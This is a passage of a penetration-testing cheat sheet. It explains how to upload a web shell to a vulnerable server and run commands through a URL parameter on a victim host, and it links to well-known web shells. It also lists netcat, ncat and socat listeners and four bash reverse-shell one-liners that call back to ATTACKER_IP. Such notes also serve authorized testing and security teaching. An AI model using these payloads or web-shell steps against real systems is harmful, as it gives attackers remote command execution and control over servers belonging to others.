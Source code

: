 The above shell can be saved in to a file (e.g. shell.php) and then uploaded into the web server that is vulnerable to unrestricted file upload, file inclusion, command injections, etc.

2- Access the shell through URL

Once deployed, the file can be accessed through the URL where the web shell is hoted (e.g. http://victim.com/uploads/shell.php). 

3- Execute commands

For the above example, GET methods and the value of cmd need to be provided (e.g. http://victim.com/uploads/shell.php?cmd=whoami).

Note: there are many popular web shells that can be found online, including:
+ [p0wny-shell](https://github.com/flozz/p0wny-shell)
+ [b374k shell](https://github.com/b374k/b374k)
+ [c99 shell](https://www.r57shell.net/single.php?id=13)

Other can be found on [r57shell.net](https://www.r57shell.net/index.php).

### Other Shell Listeners
Other tools that can be used as listeners include:

*Rlwrap* - provides editing keyboard and history; wrapping **nc** with **rlwrap** allows the use of arrow keys and history for better interaction

```
rlwrap nc -lvnp 443
```

*Ncat* - improved version of Netcat; provides extra features such as encryption (i.e. SSL)

```
ncat --ssl -lvnp 4444
```

*Socat* - allows creation of socket connections between two data sources (e.g. two hosts)

```
socat -d -d TCP-LISTEN:443 STDOUT
```

## Shell Payloads
Shell payloads can be commands or scripts that exposes the shell into incoming connections (i.e. bind shell) or send a connection (i.e. reverse shell).

### Bash
E.g. Normal bash reverse shell
```
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```
E.g. Bash read line reverse shell
```
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
```
E.g. Bash with file descripter 196 reverse shell
```
0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196
```
E.g. Bash with file descripter 5 reverse shell
```
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```
